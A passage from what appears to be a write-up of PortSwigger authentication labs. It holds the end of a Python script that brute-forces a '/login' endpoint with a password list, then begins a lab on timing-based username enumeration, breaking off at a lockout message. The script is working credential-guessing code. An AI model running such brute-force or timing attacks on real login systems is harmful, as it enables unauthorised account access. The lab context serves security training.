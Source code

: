 ```python
			find_password(trial)

def find_password(user):
	passwords = open('pass.txt','r')
	for i in passwords:
		trial = i.rstrip('\n')
		login_data = {
			'username':user,
			'password':trial
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
		if 'Invalid username or password' not in r.text:
			print(f'[+] Valid password for {user}: {trial}')
			sys.exit(1)

find_user()
```

## Lab 5: Response Timing Enumeration with Brute Force Bypass

When testing with a valid user `wiener`, the length of the password entered changes the response time.

![](../../.gitbook/assets/portswigger-auth-writeup-image-11.png)

With a short password it takes 389 ms. With a much longer password, it takes longer! 

![](../../.gitbook/assets/portswigger-auth-writeup-image-13.png)

A few attempts causes this error message to appear though:
